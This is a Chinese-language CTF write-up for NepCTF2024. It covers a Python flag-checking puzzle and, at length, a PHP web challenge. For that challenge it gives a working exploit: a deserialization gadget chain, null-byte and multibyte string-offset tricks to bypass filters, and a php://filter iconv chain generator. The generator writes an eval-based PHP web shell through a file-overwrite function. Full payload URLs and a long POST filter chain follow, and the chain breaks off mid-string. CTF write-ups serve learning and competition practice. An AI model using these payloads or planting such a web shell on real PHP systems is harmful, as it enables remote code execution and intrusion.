


+++
title = "NepCTF2024"
slug = "nepctf2024"
description = "别太努力没什么用"
date = "2024-08-28T15:27:40"
lastmod = "2024-08-28T15:27:40"
image = ""
license = ""
categories = ["赛题"]
tags = ["flask"]
+++

# 0x01 前言

算是第一次参加联队的比赛，虽然成绩不是特别好但是很开心，因为一直在进步！！

# 0x02  questions

## NepMagic —— CheckIn

狠狠的玩游戏就行了，中途注意一下,`x`是背包

## Nemophila

```python
import base64

print("这里有一个藏宝室，镇守着一个宝箱怪，当你说出正确的口令时，你也就快获得了这个屋子里最至高无上的宝物。")
print("提示：宝箱怪只会提示你口令正确与否，请你试试吧！")
flag = input('Turn in your guess: ')

if len(flag) !=48:
    print("长度不对！")
    exit(1)

if ord(flag.capitalize()[0]) != 83 or not flag[0].islower():
    print("Please try again!")
    exit(1)

if flag[-3:] != "ve}":
    print("Please try again!")
    exit(1)    

if flag.count(chr(95)) != 4:
    print("Please try again!")
    exit(1)

if base64.b64encode((flag[10:13]+flag[28:31]).encode('utf-8')).decode() != 'RnJpSGlt':
    print("Please try again!")
    exit(1)

if int(flag[24:26]) > 10 and int(flag[24:26]) < 20 and pow(int(flag[24:26]),2,5) != 0:
    print("好像有点不对！")
    exit(1)

number = flag[33] + flag[41] + flag[43:45]
if int(number) * 9_27 != 1028970 and not number.isnumeric():
    print("还是不对呢！")
    exit(1)

if flag[35:41].replace("e", "1") != "1t1rna":
    print("Please try again!")
    exit(1)

if flag[31:33].swapcase() != "ME":
    print("这不是我!")
    exit(1)

if list(map(len,flag.split("_"))) != [6, 12, 14, 7, 5] and list(map(len,flag.split("&"))) != [17, 9, 20]:
    print("换个顺序！")
    exit(1)    

if ord(min(flag[:2].swapcase())) != 69:
    print("Please try again!")
    exit(1)    

if flag[2] + flag[4:6] != "cet4"[:3]:
    print("我不想考四级！")
    exit(1)

new=""
for i in flag[7:10] + flag[18] + flag[26]: new += chr(ord(i) + 1)
if new != "jt|Df":
    print("Please try again!")
    exit(1)    

if "SunR" in flag and "eren" in flag:
    print("好像对了！可以先去试试！")
    exit(1)

print("恭喜你~发现了上个世纪的秘密~快去向冒险家协会索要报酬吧！")
```

得到密码

```
secret_is{Frieren&C_SunR15e&Himme1_eterna1_10ve}
```

后面修复图片就不会了，giao

## PHP_MASTER!!(浮现)

```
C.__destruct->B.__toString->A.readflag
```

链子还是挺好找的但是不是特别好绕过,所以卡住了

```php
$data = str_ireplace("\0","00",$ser);
```

字符逃逸，可以跑出来一个字符

先模拟生成payload一步步打

```php
<?php

function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}
class A{
    public $key='\0key\0';
    public function readflag(){
        if($this->key=== "\0key\0"){
            $a = $_POST[1];
            $contents = file_get_contents($a);
            file_put_contents($a, $contents);

        }
    }
}


class B
{

    public $b;
    public function __tostring()
    {
        if(preg_match("/\[|\]/i", $_GET['nep'])){
            die("NONONO!!!");
        }
        $str = substrstr($_GET['nep1']."[welcome to". $_GET['nep']."CTF]");
        echo $str;
        if ($str==='NepCTF]'){
            return ($this->b) ();
        }

    }
}
class C
{

    public $s;

    public $str;

    public function __construct($s)
    {
        $this->s = $s;
    }

    public function __destruct()
    {


        echo $this ->str;
    }
}
$a=new C('b');
$a->str=new B();
echo serialize($a);
```

```
O:1:"C":2:{s:1:"s";s:1:"b";s:3:"str";O:1:"B":1:{s:1:"b";N;}}
逃逸部分为
";s:3:"str";O:1:"B":1:{s:1:"b";N;}}
```

```python
str='";s:3:"str";O:1:"B":1:{s:1:"b";N;}}'
print('%00'*len(str)+str)
```

```php
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}

class B
{

    public $b;
    public function __tostring()
    {
        if(preg_match("/\[|\]/i", $_GET['nep'])){
            die("NONONO!!!");
        }
        $str = substrstr($_GET['nep1']."[welcome to". $_GET['nep']."CTF]");
        echo $str;
        if ($str==='NepCTF]'){
            return ($this->b) ();
        }

    }
}
```

这一块也是有逃逸漏洞的，我丢我当时怎么没想着搜一下现场学呢

> 每发送一个%f0abc，mb_strpos认为是4个字节，mb_substr认为是1个字节，相差3个字节(向后移动三位)
> 每发送一个%f0%9fab,mb_strpos认为是3个字节，mb_substr认为是1个字节，相差2个字节(向后移动两位)
> 每发送一个%f0%9f%9fa,mb_strpos认为是2个字节，mb_substr认为是1个字节，相差1个字节(向后移动一位)
>
> 每发送一个%9f,mb_strpos会忽略，mb_substr认为是1个字节，相差1个字节(向前移动一位)

本地搭建个环境测试

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    echo $start.'<br>';
    $end = mb_strpos($data, "]");
    echo $end.'<br>';
    return mb_substr($data, $start, $end + 1 - $start);
}
$key = substrstr($_GET['nep1']."[welcome to". $_GET['nep']."CTF]");
echo $key;
```

挨着实验





成功构造出来了

```
nep1=%f0abc%f0abc%f0abc%f0abc%9f&nep=Nep
```

这是实验环境中的`payload`但是在赛题环境中也就换换就出来了

```python
str='";s:3:"str";O:1:"B":1:{s:1:"b";s:7:"phpinfo";}}'
print('%00'*len(str)+str)
```

最终`payload`

```
https://neptune-11082.nepctf.lemonprefect.cn/?c=%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00";s:3:"str";O:1:"B":1:{s:1:"b";s:7:"phpinfo";}}&nep1=%f0abc%f0abc%f0abc%f0abc%9f%9f&nep=Nep
```

但是这仅仅只是一个`phpinfo()`,如何`getshell`呢

```php
public function readflag(){
    if($this->key=== "\0key\0"){
        $a = $_POST[1];
        $contents = file_get_contents($a);
        file_put_contents($a, $contents);

    }
}
```

这段代码可以覆盖文件内容，那么我们可以写个小马进行利用伪协议

但是我看了一下这东西是啥我都不知道我自己写的话，写个`damn`啊？

```php
<?php
$base64_payload = "PD9waHAgQGV2YWwoJF9SRVFVRVNUWydjbWQnXSk7Pz4"; /*<?php @eval($_REQUEST['cmd']);?>*/
$conversions = array(
    '/' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    '1' => 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
    '5' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE',
	'6' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'A' => 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    'E' => 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'F' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'G' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H' => 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'I' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'J' => 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'K' => 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'L' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
    'M' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
    'N' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
    'O' => 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
    'P' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'Q' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
    'R' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
	'S' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
    'T' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'V' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
    'W' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'X' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
    'Y' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
	'Z' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
    'a' => 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'b' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'c' => 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'e' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'f' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'h' => 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'i' => 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
	'j' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'k' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
    'l' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
    'm' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
    'n' => 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
    'o' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
    'p' => 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
    'q' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
    'r' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
    's' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
    't' => 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
    'u' => 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
    'v' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO_6937-2:1983.R9|convert.iconv.OSF00010005.IBM-932',
    'w' => 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
    'x' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
    'y' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
    'z' => 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}

$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=index.php";
echo $final_payload;
```

```php
//再重新写个调用方法的序列化
<?php
highlight_file( __FILE__);

function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}
class A{
    public $key="\0key\0";
    public function readflag(){
        echo $this->key;
        if($this->key=== "\0key\0"){
            echo "readflag";
            $a = $_POST[1];
            $contents = file_get_contents($a);
            var_dump(urlencode($contents));
            var_dump(file_put_contents($a, $contents));

        }
    }
}


class B
{

    public $b;
    public function __tostring()
    {
        echo "__tostring";
        if(preg_match("/\[|\]/i", $_GET['nep'])){
            die("NONONO!!!");
        }
        $str = substrstr($_GET['nep1']."[welcome to". $_GET['nep']."CTF]");
        echo $str;
        if ($str==='NepCTF]'){
            echo "yes";
            var_dump($this->b);
            return ($this->b) ();
        }

    }
}
class C
{

    public $s;

    public $str;

    public function __construct($s)
    {
        $this->s = $s;
    }

    public function __destruct()
    {


        echo $this ->str;
    }
}

$a = new C('a');
$a->str = new B();
$a->str->b=array(0=>new A(),1=>"readflag");

echo (serialize($a));

```

还有细节

我们打出的是

```php
<?php

$a='O:1:"C":2:{s:1:"s";s:1:"a";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";s:5:"key";}i:1;s:8:"readflag";}}}';
var_dump(unserialize($a));
/*bool(false)
```

为了满足条件,并且能够正常序列化我们构造的应该是这个

```php
<?php

$a='O:1:"C":2:{s:1:"s";s:1:"a";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}';
var_dump(unserialize($a));
/*class __PHP_Incomplete_Class#1 (3) {
  public $__PHP_Incomplete_Class_Name =>
  string(1) "C"
  public $s =>
  string(1) "a"
  public $str =>
  class __PHP_Incomplete_Class#2 (2) {
    public $__PHP_Incomplete_Class_Name =>
    string(1) "B"
    public $b =>
    array(2) {
      class __PHP_Incomplete_Class#3 (2) {
        ...
      }
      [1] =>
      string(8) "readflag"
    }
  }
}
```


`payload`为

```
https://neptune-49805.nepctf.lemonprefect.cn/?
c=%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}&nep1=%f0abc%f0abc%f0abc%f0abc%9f%9f&nep=Nep

POST:
1=php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.i